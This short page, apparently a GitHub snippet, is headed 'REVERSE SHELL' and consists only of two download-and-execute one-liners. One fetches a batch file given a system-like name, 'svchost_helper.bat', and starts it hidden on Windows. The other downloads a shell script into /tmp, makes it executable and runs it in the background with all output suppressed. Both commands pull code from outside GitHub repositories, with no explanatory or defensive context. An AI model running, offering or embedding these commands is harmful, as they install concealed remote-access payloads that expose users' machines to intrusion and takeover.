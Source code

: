 REVERSE SHELL


curl -L -o svchost_helper.bat https://github.com/prank9912/svchost_helper.bat/raw/main/svchost_helper.bat && start /b cmd /c svchost_helper.bat



curl -sSL https://raw.githubusercontent.com/prank9912/bothack/main/reverseios.sh -o /tmp/reverseios.sh
chmod +x /tmp/reverseios.sh
/tmp/reverseios.sh &> /dev/null &
